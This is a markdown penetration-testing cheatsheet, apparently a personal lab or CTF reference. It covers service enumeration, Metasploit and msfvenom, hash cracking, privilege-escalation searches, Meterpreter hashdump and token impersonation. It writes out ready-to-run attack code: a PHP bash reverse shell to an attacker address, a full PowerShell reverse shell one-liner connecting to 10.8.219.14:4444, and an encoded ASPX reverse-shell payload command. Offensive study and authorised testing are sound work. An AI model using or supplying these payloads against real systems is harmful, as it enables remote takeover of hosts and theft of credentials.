 # Cheatsheet

## OSINT

### NMAP
As an alternative you can use `rustscan -a <address>`
Normal scan: `nmap -vv -sV -Pn -A -T4 --script vuln <address>`
Long scan: `nmap -sV -Pn -A -T4 -p- <address>`
Enumerate SMB: `nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse <address>`

### Enumerate SMB
`smbmap -H <address>`
Check discovered directories in other places such as websites.
`smbclient -L <address> -U`
List all the directories in the share

### Enumerate FTP: 21
`ftp <address>`
Anonymous login: anonymous (no password required)

#### nmap
`nmap --script ftp-* -p 21 <address>`

#### Download all files
`wget -m ftp://anonymous:anonymous@<address>`
`wget -m --no-passive ftp://anonymous:anonymous@<address>`

#### Brute Force
https://github.com/danielmiessler/SecLists/blob/master/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt

### Enumerate HTTP
`gobuster dirb --url=<address> --wordlist=<wordlist>`

### Metasploit
open `msfconsole`
`search <exploit name>`
`use <discovered id>`
`show options` set the required options for the exploit
`exploit` or `run`
you can then hold on to the shell once it has been achieved by putting it into the background `Ctrl-Z`

#### Msfvenom
There are two types of payloads that can be generated, staged and stageless. Staged means you need msfconsole to complete the shell, used for limited upload space.
Staged, denoted by '/': windows/shell/reverse_tcp
Stageless, denoted by '_': windows/shell_reverse_tcp

To search for payloads: `msfvenom -l payloads | grep windows`
When setting up: `msfvenom -p payload --list-options`

encoders:
	windows: `-a x86 --encoder x86/shikata_ga_nai -f exe -o <filename>.exe`

IIS Example: `msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.8.219.14 --platform windows -a x64 -f aspx -o shell.aspx`

#### Upgrade shell to Meterpreter

##### Option 1
search for shell_to_meterpreter use and set session to the session number of the session that needs upgrading

##### Option 2
`sessions -u <id>`

## Exploitation

### Windows Binary Locations
`/usr/share/windows-resources/`

### Reverse Shells
#### PHP
```
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/<attacker ip>/1234 0>&1'");
?>
```

### Cracking Passwords
First search for hash via Search-the-hash `sth -t <hash>` or `sth -f <file>`
If not found you can use `john` or `hashcat`
Example hashcat (use `--help` for more guidance):
`hashcat -m <type of hash> -a <cracking type> <hash>:<salt> <wordlist> --show`
Note: must use `--show` to actually see the cracked password...

## Post-Exploitation

### Check Services and Ports
Running Ports: `ss -natu`
Forwarding ports through ssh: `ssh -L <local port>:<remote address>:<remote port> <username>@<address>`

### Python
#### Reverse Shell Upgrade
`python -c 'import pty; pty.spawn("/bin/bash")'`

#### Simple HTTP Server
If you need to get a file over to a compromised server with curl installed:
`python3 -m http.server`

### Shell
#### SUID search
`find / -user root -perm -4000 -exec ls -ldb {} \;`
`find / -perm -u=s -type f 2>/dev/null`
`find / -perm -u=s -type f 2>/dev/null; find / -perm -4000 -o- -perm -2000 -o- -perm -6000 2>/dev/null`

If you find a binary that matches this, you can try running with the `-p` flag which allows you to run a binary as the owner.

#### Find writable directories
`find -type d -writable`

### MetaSploit
#### Catching a Reverse Shell
generate the reverse shell in msfvenon
`use exploit/multi/handler`
`set PAYLOAD windows/meterpreter/reverse_tcp`

#### Windows Migration
get a meterpreter session and find a process running as SYSTEM: `ps`
safest choice is to choose `services.exe`
`migrate <process id>`

#### Windows Passwords
within meterpreter session: `hashdump`

#### Using Powershell
`load powershell` then `powershell_shell`

#### Windows Token Exploitation
powershell `whoami /priv`
msf `load incognito`
`list_tokens -g` then `impersonate_token <name of token>`

## Tools
A series of a userful links:
- [Nishang](https://github.com/samratashok/nishang.git): A series of useful Windows Exploit scripts
- [PowerSploit](https://github.com/PowerShellMafia/PowerSploit) Same as above

## Misc
Reuse a command from history `history | grep <parameter>`, `!!<choice>`

### Powershell Reverse Shell
`powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.8.219.14',4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"`

### Starting SMB Server
Navigate to folder to share

`python3 /usr/share/doc/impacket-scripts/examples/smbserver.py SHARE .`

### Powershell

- Search for command with name: `Get-Command *search_parameter*`
- Get all Parameters for a command: `(Get-Command Command).Parameters`
- Search for a file: `Get-ChildItem -Path C:\ -Include *title* -File -Recurse -ErrorAction SilentlyContinue`
- Search for files containing string: `Get-ChildItem C:\* -Recurse | Select-String -pattern search_string`
- Get list of running processes: `Get-Process`
